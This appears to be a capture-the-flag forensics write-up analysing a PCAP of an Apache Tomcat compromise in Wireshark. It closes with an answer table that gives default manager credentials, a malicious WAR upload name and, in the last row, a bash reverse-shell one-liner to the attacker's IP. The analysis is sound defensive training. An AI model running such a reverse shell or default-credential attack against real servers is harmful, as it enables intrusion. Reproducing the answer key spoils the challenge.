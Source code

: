 # Tomcat Takeover

### Scenario

The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

### Tool

- Wireshark

- OSINT (IpGeo)

### Solution

#### Question 1:

Different port but same IP source and destination. So I investigate the `Statistics > Conversations`

![image](./assets/1.png)

#### Question 2:

![image](./assets/2.png)

#### Question 3:

Filter: `http && ip.src == 14.0.0.120`

We see that directory `/admin` and `/admin-panel` is a name which like a web server admin panel

![image](./assets/3.png)

![image](./assets/4.png)

#### Question 4: 

If the attack use tool to uncover directories and files so there any many 404 response on HTTP because the web server do not always have directories and files in the tool's wordlist 

![image](./assets/5.png)

We can find the tool's name in `User-Agent` of the `GET` request before the HTTP 404 packet happended

![image](./assets/6.png)

#### Question 5:

If we want access to the directory which relate to admin panel, we have to authorize. So I focus on the packet has authorization response. After the attack, we observe a 200 server response, which means the attack was successful. By examining the stream, we can determine which directory the attacker accessed

![image](./assets/7.png)

#### Question 6:

The request before first 200 response contain correct credential used to login

![image](./assets/8.png)

#### Question 7:

After authorized, we see that there is a HTTP POST packet which upload something. Follow that and we have the name

![image](./assets/9.png)

![image](./assets/10.png)

#### Question 8:

Continue follow HTTP stream after attacker upload the malicious file, we will have the answer

![image](./assets/11.png)


### Final Answer

| Question | Answer |
|---|----|
| Question 1 | `14.0.0.120` | 
| Question 2 | `China` | 
| Question 3 | `8080` |
| Question 4 | `gobuster` |
| Question 5 | `/manager`|
| Question 6 | `admin:tomcat` |
| Question 7 | `JXQOZY.war` |
| Question 8 | `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` |











